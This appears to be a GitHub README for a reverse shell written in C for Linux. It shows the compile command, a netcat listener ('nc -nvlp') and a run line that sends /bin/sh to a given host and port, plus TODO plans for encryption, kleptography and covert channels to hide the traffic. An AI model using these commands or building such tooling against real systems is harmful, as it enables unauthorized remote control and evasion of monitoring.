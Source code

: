 # Concept

Making a Reverse Shells in C for Linux

## Linux
### Compiling & Usage

```bash
# Compile it
gcc -o linux_rev_shell.elf linux_rev_shell.c

## Another system:
## set up a listener 
nc -nvlp -k 1234

## Set up env variables for easy execution in terminal
# Execute it, passing the env variables.
RP="1234" && RH="127.0.0.1" && BIN="/bin/sh"  && ./linux_rev_shell.elf $RP $RH $BIN

```

## TODO 
- [ ] debug (print outs, etc)
- [ ] more checks
- [ ] encryption
- [ ] LISTEN | CLIENT for both, so no need for NC and stuff.
- [ ] Implement Secure channels, including(but not lim. To)
    - [ ] Cryptography
    - [ ] Kleptography
    - [ ] Covert Channels
    - Like [This](https://embeddedsw.net/Cipher_Reference_Home.html) and [This](https://embeddedsw.net/libObfuscate_Cryptography_Home.html) (both `embeddedsw.net`)
